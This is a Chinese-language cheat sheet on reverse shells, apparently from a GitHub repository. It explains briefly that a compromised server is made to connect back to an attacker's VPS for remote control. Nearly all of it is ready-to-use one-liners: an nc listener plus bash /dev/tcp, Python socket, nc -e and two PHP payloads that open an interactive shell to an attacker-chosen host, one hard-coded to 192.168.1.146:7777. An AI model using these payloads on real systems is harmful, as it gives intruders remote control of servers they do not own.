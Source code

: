 # 反弹shell备忘录

简单理解，通常是我们主动发起请求，去访问服务器（某个IP的某个端口），比如我们常访问的web服务器：`http(https)://ip:80`，这是因为在服务器上面开启了80端口的监听，我们去访问它的时候，就会给我们建立连接。而现在所谓的`反弹shell`指的是反过来在我们自己的公网vps建立监听，然后让服务器反弹一个shell来连接我们自己的主机，然后我们就能通过反弹的shell去远程控制服务器了。

接受端运行

```
nc -lvp port
```

bash

```ruby
bash -i >& /dev/tcp/ip/port 0>&1
```

![1573140057801.png](https://i.loli.net/2019/11/07/zjqSWmE9yiQLsFr.png)

python

```swift
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

nc

```csharp
nc -e /bin/bash 192.168.1.146 7777
```

php

```csharp
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.1.146/7777");'
```

```dart
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

